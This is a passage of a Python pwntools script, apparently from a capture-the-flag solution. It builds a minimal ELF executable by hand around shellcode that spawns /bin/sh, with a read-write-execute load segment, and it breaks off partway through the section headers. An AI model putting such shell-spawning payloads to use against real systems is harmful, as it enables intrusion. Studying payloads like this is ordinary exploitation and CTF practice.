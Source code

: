 ```python
#!/usr/bin/env python3
from pwn import *
import base64

# Create minimal shellcode to execute /bin/sh
shellcode = asm(shellcraft.amd64.linux.sh(), arch='amd64')

# ELF file constants
EHDR_SIZE = 64
PHDR_SIZE = 56
SHDR_SIZE = 64

# File offset for shellcode
SHELLCODE_OFFSET = EHDR_SIZE + PHDR_SIZE

# Virtual memory address for loading
VADDR_BASE = 0x400000

# Calculate entry point
ENTRY_POINT = VADDR_BASE + SHELLCODE_OFFSET

# Create ELF header
e_ident = b'\x7fELF' + p8(2) + p8(1) + p8(1) + b'\x00' * 9
ehdr = e_ident
ehdr += p16(2)        # e_type: ET_EXEC
ehdr += p16(0x3e)     # e_machine: EM_X86_64
ehdr += p32(1)        # e_version
ehdr += p64(ENTRY_POINT)  # e_entry: Entry point
ehdr += p64(EHDR_SIZE)    # e_phoff: Program header offset
ehdr += p64(EHDR_SIZE + PHDR_SIZE + len(shellcode))  # e_shoff: Section header offset
ehdr += p32(0)        # e_flags
ehdr += p16(EHDR_SIZE)    # e_ehsize: ELF header size
ehdr += p16(PHDR_SIZE)    # e_phentsize: Program header entry size
ehdr += p16(1)        # e_phnum: Number of program headers
ehdr += p16(SHDR_SIZE)    # e_shentsize: Section header entry size
ehdr += p16(3)        # e_shnum: Number of section headers (null, .text and .shstrtab)
ehdr += p16(2)        # e_shstrndx: Section name string table index

# Create program header (segment) for the executable code
# PT_LOAD segment with RWX permissions
phdr = p32(1)         # p_type: PT_LOAD
phdr += p32(7)        # p_flags: PF_R | PF_W | PF_X (read, write, execute)
phdr += p64(0)        # p_offset: File offset
phdr += p64(VADDR_BASE)  # p_vaddr: Virtual address
phdr += p64(VADDR_BASE)  # p_paddr: Physical address
phdr += p64(EHDR_SIZE + PHDR_SIZE + len(shellcode) + (3 * SHDR_SIZE) + 24)  # p_filesz: File size
phdr += p64(EHDR_SIZE + PHDR_SIZE + len(shellcode) + (3 * SHDR_SIZE) + 24)  # p_memsz: Memory size
phdr += p64(0x1000)   # p_align: Alignment

# String table for section names
strtab = b"\x00.text\x00.shstrtab\x00"
strtab_offset = EHDR_SIZE + PHDR_SIZE + len(shellcode) + (3 * SHDR_SIZE)

# Create section headers
# Null section header
shdr_null = p32(0)    # sh_name: No name
shdr_null += p32(0)   # sh_type: SHT_NULL
shdr_null += p64(0)   # sh_flags: No flags
shdr_null += p64(0)   # sh_addr: No address
shdr_null += p64(0)   # sh_offset: No offset
shdr_null += p64(0)   # sh_size: No size
shdr_null += p32(0)   # sh_link: No link
shdr_null += p32(0)   # sh_info: No info
```